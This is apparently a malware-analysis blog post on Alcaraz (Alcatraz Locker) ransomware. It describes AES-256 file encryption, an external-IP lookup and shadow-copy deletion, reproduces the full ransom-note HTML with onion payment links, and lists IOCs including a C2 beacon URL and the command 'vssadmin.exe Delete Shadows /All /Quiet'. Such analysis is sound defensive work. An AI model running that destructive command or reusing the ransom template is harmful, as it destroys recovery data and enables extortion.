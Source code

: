 ```yaml
---
title: " Alcaraz Ransomware "
classes: wide
header:
  teaser: /assets/images/malware-analysis/ransomeware_pic/ransomeware.png
ribbon:
description: "Inhibit System Recovery - Data Encrypted for Impact"
categories:
  - malware_analysis
toc: true
---
```





# First look: 
 **info**:
   Malware Family: Alcaraz Ransomware
       
   File Size: 117,760 bytes (115.00 KiB)
       
   Operating System: Windows Vista
       
   Architecture: x86 (32-bit)
       
   File Entropy: 6.48089
       
    No discernible indicators suggest that the file is packed with strings or imports.



  After examining the libraries and strings, it was found that the malware utilizes the Windows Crypto Library and Windows HTTP Services. Additionally, the malware contains URLs such as `www.myexternalip.com`, suggesting its likely purpose of retrieving the external IP address of the victim's device.


  When I initiated the program, I observed behaviors such as HTTP requests being made to obtain my external IP address. 

  ![error](/assets/images/malware-analysis/ransomeware_pic/extrnal_ip.png)


  Furthermore, upon monitoring with Procmon, I identified a significant volume of activity, comprising `90,315` events involving registry keys, folders, and processes.

  ![error](/assets/images/malware-analysis/ransomeware_pic/events.png.png)


  I noticed that files on my machine had been appended with the `.Alcatraz` extension, and upon attempting to open these files, they displayed random strings, indicating potential encryption by the Alcaraz ransomware.

  ![error](/assets/images/malware-analysis/ransomeware_pic/name.png.png)


  The file generates a console window that appears as a child process in Process Hacker.

  ![error](/assets/images/malware-analysis/ransomeware_pic/console_window.png)


  **Now, let's delve into the exciting realm of deep analysis.**


# Advanced analysis 

  
  The malware retrieves a random number from the system time, presumably for future encryption purposes. Following this action, it terminates the console window that it had previously opened.


  ![error](/assets/images/malware-analysis/ransomeware_pic/kill_console.png.png)

  Afterwards, the malware generates an encryption key that will be utilized in the encryption algorithm.

  ![error](/assets/images/malware-analysis/ransomeware_pic/key_gen.png.png)


  After the initial key generation step, the malware proceeds to pass the key to the second step, where it is hashed using the `CryptDeriveKey` function. Upon examining the ALGID parameter passed to the function, it is identified as `0x00006610`, which corresponds to the `CALG_AES_256` algorithm utilized in AES Cryptographic.


  ![error](/assets/images/malware-analysis/ransomeware_pic/enc_algo.png)


  Afterward, the malware proceeds to collect information about the host machine, such as the operating system version


  ![error](/assets/images/malware-analysis/ransomeware_pic/os_check.png)


  Now, the malware begins encrypting the file system. It starts by locating the first file and enters a while loop to gather all files requiring encryption. Within this loop, two functions are employed: the first retrieves the file path, while the second, taking the file path and encryption key as parameters, encrypts the file and renames it accordingly.

  ![error](/assets/images/malware-analysis/ransomeware_pic/file_enc.png.png)

  ![error](/assets/images/malware-analysis/ransomeware_pic/rename..png.png)

  
  The malware obtains the external IP address associated with the victim's machine.

  ![error](/assets/images/malware-analysis/ransomeware_pic/http_request.png)  

  After completing the encryption process, the malware proceeds to delete all volume shadow copies to prevent data restoration.

  ![error](/assets/images/malware-analysis/ransomeware_pic/cmd.png.png)

  ![error](/assets/images/malware-analysis/ransomeware_pic/vss.png.png)  

  
  malware Read some data from an external IP address.

  ![error](/assets/images/malware-analysis/ransomeware_pic/ip_address.png.png)    

  After completing all necessary operations, the malware notifies the victim by loading a JavaScript code containing a message indicating that their machine has been encrypted.  

  ![error](/assets/images/malware-analysis/ransomeware_pic/html.png.png)

  ```
      "<html lang=\"en\">\n"
    "<head>\n"
    "<title>Ransomed</title>\n"
    "<meta charset = \"utf-8\">\n"
    "<meta name = \"viewport\" content = \"width=device-width, initial-scale=1\">\n"
    "<link rel = \"stylesheet\" href = \"http://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css\">\n"
    "<script src = \"https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js\"></script>\n"
    "<script src = \"http://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js\"></script>\n"
    "</head>\n"
    "<body>\n"
    "<style>\n"
    ".bg-1 {\n"
    "\tpadding-top: 70px;\n"
    "\tpadding-bottom: 70px;\n"
    "\tbackground-color: #ff6000;\n"
    "\tcolor: #ffffff;\n"
    "}\n"
    ".bg-2 {\n"
    "\tbackground-color: #474e5d;\n"
    "\tcolor: #ffffff;\n"
    "}\n"
    "</style>\n"
    "<body>\n"
    "<div class = \"container-fluid bg-1 text-center\">\n"
    "<h1>ALL YOUR DATA ARE ENCRYPTED.</h1>\n"
    "<h1><a style = \"color:#ffffff;\" href = \"http://aa2stvtvgxo6mv5y.onion.to/ransomed.php\">Help | Aiuto | Au secours"
    " | Ayuda | Hilfe</a></h1>\n"
    "<h2><strong>Pay %s BTC at %s </strong></h2>\n"
    "<h3><strong>Your ID:%s</strong></h2>\n"
    "</div>\n"
    "<div class = \"container-fluid bg-2 text-center\">\n"
    "<h1>Q&A</h1><h2 style = \"color:#ff6000;\">Q: What's happens?</h2>\n"
    "<h2>A : You have been infected by a <strong style = \"color:#ff6000\">Alcatraz Locker</strong></h2>\n"
    "<h2 style = \"color:#ff6000;\">Q : What I have to do now ? </h2>\n"
    "<h2>A : The only method to get back your document is to pay.</h2>\n"
    "<h2 style = \"color:#ff6000;\">Q : There is a method to decrypt without pay ? </h2>\n"
    "<h2>A : No.there isn't, all your data are encrypted with <strong style=\"color:#ff6000\">AES-256</strong> with a 128"
    "-bit password. NSA use the same algorithm to encrypt top-secret documents</h2>\n"
    "<h2 style = \"color:#ff6000;\">Q : If I don't want pay?</h2>\n"
    "<h2>A : You have <strong style = \"color:#ff6000\">30 days</strong> to choose if pay or lose your data for ever.</h2"
    ">\n"
    "<h2 style = \"color:#ff6000;\">Q : How to Pay ? </h2>\n"
    "<h2>A : The only method accepted is <strong style = \"color:#ff6000\">Bitcoin</strong> follow this <a style = \"colo"
    "r:#ff6000\" href = \"http://aa2stvtvgxo6mv5y.onion.to/payments.php?id=%s\">link</a> to start pay.</h2>\n"
    "</div>\n"
    "</body>\n"
    "</html>\n"

  ```



# IOC  

```
  MD5: 76ffbb43f6ac003cacf391b95d462362
  sha256: 918504EDE26BB9A3AA315319DA4D3549D64531AFBA593BFAD71A653292899FEC
  
  HTTP Requests:

     onion.to:443
     http://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css
     http://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/fonts/glyphicons-halflings-regular.eot?
     http://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js
     http://onion.to:443
     http://pki.goog/gsr1/gsr1.crt
     http://www.myexternalip.com/raw
     http://www.myexternalip.com:443
     onion.to/index.php?ip=34.139.214.179ÝÝÝÝÝÝÝÝÝÝÝÝÝÝÝÝÝÝð&ZÝÝ&id=BvNMITQqnjADAwOJ&botid=duQDfUTMljVWcBAFsOwvNenXoxZPYKthrS&username=admin&key=BvNMITQqnjADAwOJmjKcSJHOtOyXdLPiKvtxAJzfXXtXkRkLn


  Shell Commands
     %SAMPLEPATH%\918504ede26bb9a3aa315319da4d3549d64531afba593bfad71a653292899fec.exe"
     %SAMPLEPATH%\unknown.exe"
     C:\Program Files (x86)\Internet Explorer\IEXPLORE.EXE" SCODEF:2948 CREDAT:209921 /prefetch:2
     C:\Program Files\Internet Explorer\iexplore.exe" C:\Users\user\Desktop\ransomed.html
     C:\Users\xxx\AppData\Local\Temp\6a7267dc0e5889df7f4b88b8323fb628\VpNQsR6lgb.exe ""
     C:\Windows\system32\cmd.exe /c vssadmin.exe Delete Shadows /All /Quiet
     C:\Windows\system32\cmd.exe /c start C:\Users\xxx\Desktop\ransomed.html
     C:\Users\user\Desktop\ransomed.html
     C:\Windows\System32\wuapihost.exe -Embedding
     C:\Windows\system32\cmd.exe /c start C:\Users\user\Desktop\ransomed.html
     C:\Windows\system32\cmd.exe /c vssadmin.exe Delete Shadows /All /Quiet
     vssadmin.exe Delete Shadows /All /Quiet



```
